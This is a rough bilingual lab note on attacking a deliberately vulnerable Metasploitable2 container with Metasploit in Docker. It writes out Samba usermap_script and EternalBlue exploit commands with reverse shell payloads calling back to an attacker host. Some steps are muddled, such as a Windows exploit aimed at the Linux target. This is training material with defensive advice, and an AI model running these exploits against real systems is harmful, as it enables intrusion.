 # [Topic]系統攻擊
  * Docker Image- Metasploit
  * 使用Docker與Metasploit，針對脆弱的Ubuntu服務進行模擬攻擊，並取得控制權限。

# [Abstract]緣起摘要
  * Metasploit是一款強大的滲透測試工具，可用於發現漏洞並進行攻擊模擬。
  * 透過Docker，我們可以快速部署Metasploit，而無需在本機安裝大量依賴。

# [Relational]相關資訊
  * 目標：Metasploitable 2（內含多個已知漏洞的Linux測試環境）
  * 攻擊者：Metasploit（使用Docker來執行）
  * 攻擊方式：利用Samba漏洞取得遠端shell權限（CVE-2007-2447）

# [Procedure]步驟紀錄
  * 

# [Suggestion]結論建議
  * 透過Docker快速部署Metasploit環境，並利用Samba漏洞取得遠端控制權限。滲透測試的基本流程，包括：偵查、漏洞分析與攻擊。
  * 安全防護：避免使用舊版的服務，並定期更新系統。
  * 防禦措施：設定防火牆規則，阻擋來自外部的445連線，並監控異常行為。
  * 進一步學習：嘗試使用Metasploit測試其他漏洞，提升滲透測試技能。


# 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`
docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"

docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable  # get Target IP


- -p 445:445：開放 SMB（檔案共享漏洞）
- -p 21:21：開放 FTP（容易被暴力破解）
- -p 22:22：開放 SSH（可能存在弱密碼）
- -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`
docker rm -f vulnerable  # if docker exist, delete it.
docker start vulnerable


# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`

`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`
`help  # check metasploit status`

# 4. Scan target system
use exploit/multi/samba/usermap_script


msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2
msf6 auxiliary(scanner/smb/smb_version) > run

## exploit
use exploit/multi/samba/usermap_script
set RHOSTS 172.17.0.2
check
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 172.17.0.3
exploit



msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.17.0.2
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
set PAYLOAD cmd/unix/reverse_netcat

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.17.0.3
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit




